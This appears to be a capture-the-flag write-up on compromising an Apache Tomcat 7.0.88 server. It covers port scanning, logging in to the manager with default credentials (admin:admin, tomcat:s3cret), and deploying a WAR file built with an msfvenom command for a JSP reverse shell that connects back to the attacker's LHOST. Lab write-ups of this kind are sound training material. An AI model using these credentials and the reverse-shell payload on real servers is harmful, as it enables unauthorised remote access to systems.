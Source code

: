 
## Enumeration
- nmap scan shows that port 8080 is open with Apache Tomcat/7.0.88 running on it
- we look through the webpage
- open server status and we put in admin admin and it works
- then i look at the response in burpsuit and it has a username tomcat and password s3cret
- I found authorization tag in the html post requests
- it had base64 encoding of admin:admin, so i encoded tomcat:s3cret and input it and now i have access to the manager
- i found a upload file and deploy button

## Exploitation
- first thing that comes to mind is to create a shell file to connect back to my machine to get a reverse shell
- it needs war files so we can run msfvenom to make one `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_tun0_ip> LPORT=4444 -f war -o shell.war`
-  Then open website/shell, and boom you have a reverse shell (this gets you user and root.txt)